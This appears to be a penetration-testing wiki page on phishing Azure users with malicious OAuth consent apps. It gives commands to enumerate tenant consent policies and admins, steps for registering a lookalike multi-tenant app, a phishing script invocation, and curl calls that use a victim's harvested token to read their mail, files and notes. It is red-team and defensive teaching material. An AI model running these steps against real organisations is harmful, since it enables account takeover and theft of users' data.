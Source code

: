 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## OAuth App Phishing

**Azure Applications** are configured with the permissions they will be able to use when a user consents the application (like enumerating the directory, access files, or perform other actions). Note, that the application will be having on behalf of the user, so even if the app could be asking for administration permissions, if the **user consenting it doesn't have that permission**, the app **won't be able to perform administrative actions**.

### App consent permissions

By default any **user can give consent to apps**, although this can be configured so users can only consent to **apps from verified publishers for selected permissions** or to even **remove the permission** for users to consent to applications.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

If users cannot consent, **admins** like `GA`, `Application Administrator` or `Cloud Application` `Administrator` can **consent the applications** that users will be able to use.

Moreover, if users can consent only to apps using **low risk** permissions, these permissions are by default **openid**, **profile**, **email**, **User.Read** and **offline_access**, although it's possible to **add more** to this list.

nd if they can consent to all apps, they can consent to all apps.

### 2 Types of attacks

- **Unauthenticated**: From an external account create an application with the **low risk permissions** `User.Read` and `User.ReadBasic.All` for example, phish a user, and you will be able to access directory information.
  - This requires the phished user to be **able to accept OAuth apps from external tenant**
  - If the phised user is an some admin that can **consent any app with any permissions**, the application could also **request privileged permissions**
- **Authenticated**: Having compromised a principal with enough privileges, **create an application inside the account** and **phish** some **privileged** user which can accept privileged OAuth permissions.
  - In this case you can already access the info of the directory, so the permission `User.ReadBasic.All` isn't no longer interesting.
  - You are probable interested in **permissions that require and admin to grant them**, because raw user cannot give OAuth apps any permission, thats why you need to **phish only those users** (more on which roles/permissions grant this privilege later)

### Users are allowed to consent

Note that you need to execute this command from a user inside the tenant, you cannot find this configuration of a tenant from an external one. The following cli can help you understand the users permissions:

```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```

- Users can consent to all apps: If inside **`permissionGrantPoliciesAssigned`** you can find: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy` then users can to accept every application.
- Users can consent to apps from verified publishers or your organization, but only for permissions you select: If inside **`permissionGrantPoliciesAssigned`** you can find: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` then users can to accept every application.
- **Disable user consent**: If inside **`permissionGrantPoliciesAssigned`** you can only find: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` and `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` then users cannot consent any.

It's possible to find the meaning of each of the commented policies in:

```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```

### **Application Admins**

Check users that are considered application admins (can accept new applications):

```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```

## **Attack Flow Overview**

The attack involves several steps targeting a generic company. Here's how it might unfold:

1. **Domain Registration and Application Hosting**: The attacker registers a domain resembling a trustworthy site, for example, "safedomainlogin.com". Under this domain, a subdomain is created (e.g., "companyname.safedomainlogin.com") to host an application designed to capture authorization codes and request access tokens.
2. **Application Registration in Azure AD**: The attacker then registers a Multi-Tenant Application in their Azure AD Tenant, naming it after the target company to appear legitimate. They configure the application's Redirect URL to point to the subdomain hosting the malicious application.
3. **Setting Up Permissions**: The attacker sets up the application with various API permissions (e.g., `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). These permissions, once granted by the user, allow the attacker to extract sensitive information on behalf of the user.
4. **Distributing Malicious Links**: The attacker crafts a link containing the client id of the malicious application and shares it with targeted users, tricking them into granting consent.

## Example Attack

1. Register a **new application**. It can be only for the current directory if you are using an user from the attacked directory or for any directory if this is an external attack (like in the following image).
   1. Also set the **redirect URI** to the expected URL where you want to receive the code to the get tokens (`http://localhost:8000/callback` by default).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. Then create an application secret:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. Select API permissions (e.g. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read)`

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **Execute the web page (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)** that asks for the permissions:

```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```

5. **Send the URL to the victim**
   1. In this case `http://localhost:8000`
6. **Victims** needs to **accept the prompt:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. Use the **access token to access the requested permissions**:

```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
  https://graph.microsoft.com/v1.0/me/drive/root/children \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Accept: application/json"

# List eails
curl -X GET \
  https://graph.microsoft.com/v1.0/me/messages \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Accept: application/json"

# List notes
curl -X GET \
  https://graph.microsoft.com/v1.0/me/onenote/notebooks \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Accept: application/json"
```

## Other Tools

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Check [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) to learn how to configure it.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Post-Exploitation

### Phishing Post-Exploitation

Depending on the requested permissions you might be able to **access different data of the tenant** (list users, groups... or even modify settings) and **information of the user** (files, notes, emails...). Then, you can use this permissions to perform those actions.

### Application Post Exploitation

Check the Applications and Service Principal sections of the page:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## References

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}



